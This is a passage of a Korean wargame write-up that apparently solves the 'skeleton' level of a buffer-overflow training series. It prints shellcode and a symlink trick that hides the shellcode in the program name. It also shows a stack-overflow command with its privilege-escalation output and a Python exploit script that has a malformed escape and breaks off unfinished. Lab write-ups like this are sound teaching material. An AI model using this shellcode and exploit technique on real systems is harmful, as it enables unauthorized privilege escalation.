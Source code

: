 초기화 되지 않는 환경변수 영역의 주소는 `0xbfffff80` 주변임을 확인한다.



-----

### 0x02. Exploit

```
'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```

이제 실제 Shell Code를 이용하여 심볼릭 링크를 `skeleton` 바이너리와 연결하여 생성한다.

```
[vampire@localhost vampire]$ ln -s skeleton `python -c 'print "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xf f\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x5 1\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*32'`
```

```
[vampire@localhost vampire]$ ./`python -c 'print "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9 \x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2 \x9a\xb1\x0c\xce\x81"+"\x90"*32'` `python -c 'print "\x90"*44+"\x91\xff\xff\xbf"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱?
풺ash$ id
uid=509(vampire) gid=509(vampire) euid=510(skeleton) egid=510(skeleton) groups=509(vampire)
bash$ my-pass
euid = 510
shellcoder
bash$
```

-----

### 0x03. 정리

이 문제에서 **실제 실행되는 파일의 이름은 스택 최상단에 저장되어 있으며 이는 초기화 할 수 없음**을 확인 할 수 있는 문제였다.

그리고 이름에 심볼릭 링크를 설정할 때 ShellCode 뒤에 일정 공간을 만들어 줘야 ShellCode가 잘 실행되었다.

-----

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

shellcode = "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\x\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

target = "\x90"*50 + shellcode + "\x90"*32

shellcode_addr = 0xbfffff80

payload = "\x90"*44
payload = append(p32(shellcode_addr))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
```